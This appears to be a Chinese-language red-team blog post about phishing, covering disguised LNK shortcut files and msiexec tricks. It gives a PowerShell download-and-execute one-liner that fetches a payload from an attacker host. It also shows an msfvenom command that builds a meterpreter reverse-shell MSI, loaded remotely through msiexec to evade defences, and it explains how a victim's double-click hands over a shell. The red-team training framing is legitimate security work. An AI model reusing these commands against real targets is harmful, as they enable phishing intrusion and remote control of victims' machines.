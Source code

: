 ```yaml
---
layout:  post    # 使用的布局（不需要改）
title:  红蓝对抗钓鱼篇之从入门到放弃   # 标题 
subtitle:  #副标题
date:  2021-03-21  # 时间
author:  yanmie    # 作者
header-img: img/.jpg ##标签这篇文章标题背景图片
catalog: true      # 是否归档
tags:        
    - 网络安全

---
```




**在大型企业边界安全做的越来越好的情况下，不管是 APT 攻击还是红蓝对抗演练，钓鱼鱼叉和水坑攻击被越来越多的应用。**

**钓鱼往往需要免杀技术的支撑，但本章只讲述钓鱼和些许免杀技术，免杀系列学习在后续讲解。**

## 一、钓鱼小技巧

#### 1.1 LNK 快捷方式

lnk文件是用于指向其他文件的一种文件。这些文件通常称为快捷方式文件，通常它以快捷方式放在硬盘上，以方便使用者快速的调用。
 lnk钓鱼主要将图标伪装成正常图标，但是目标会执行shell命令。

cs演示：

![](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210402173548.png)

![](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210402173558.png)

得到

```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.2.158:80/a'))"
```

然后新建快捷方式，将上述语句填入

[![slJmhd.png](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210402173605.png)](https://imgchr.com/i/slJmhd)

下一步，然后自己命名一下，点击完成。

当受害者双击之后就会自动执行我们的恶意payload,从目标网站下载并执行。

最终被得到 shell。

[![slY12R.md.png](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210402173611.png)](https://imgchr.com/i/slY12R)

**也可以使用msiexec.exe，系统进程，是Windows Installer的一部分,利用此进程来加载我们shellcode可以达到一定的规避作用。**

```cmd
msfvenom -p windows/meterpreter/reverse_tcp lhost=vpsip lport=1234 -f msi > shell.txt

c:\windows\system32\msiexec.exe /q /i http://xxx/shell.txt
```
